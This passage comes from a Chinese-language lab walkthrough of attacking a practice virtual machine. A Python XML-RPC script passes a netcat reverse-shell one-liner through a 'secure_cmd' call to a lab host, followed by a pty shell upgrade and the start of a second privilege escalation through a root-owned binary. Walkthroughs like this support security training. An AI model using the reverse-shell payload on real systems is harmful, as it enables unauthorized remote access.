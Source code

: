 ![image-20211124141640107](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211124141640107.png)

>import xmlrpc.client
>
>with xmlrpc.client.ServerProxy("http://10.0.2.12:8000/") as proxy:
>    cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.0.2.4 5555 >/tmp/f"
>    r = str(proxy.secure_cmd(cmd,1447))
>    print(r)

```
python3 c.py
```

![image-20211124141913344](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211124141913344.png)

```
python -c "import pty;pty.spawn('/bin/bash')"           #优化shell
```

![image-20211124142428803](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211124142428803.png)

查看socnet用户目录下的文件

```
ls -l
```

![image-20211124142732587](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211124142732587.png)



### 二次提权

```
file add_record
```

![image-20211124143037766](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211124143037766.png)

发现该文件可执行且其属主账号为root

再看目录下的peda文件

peda是基于python的动态调试脚本

![image-20211124145232452](https://gitee.com/byesec/picture/raw/master//target/Week4-1//image-20211124145232452.png)

执行add_record程序

```
./add_record
```

![image-20211124145559990](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211124145559990.png)

![image-20211124145716660](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211124145716660.png)

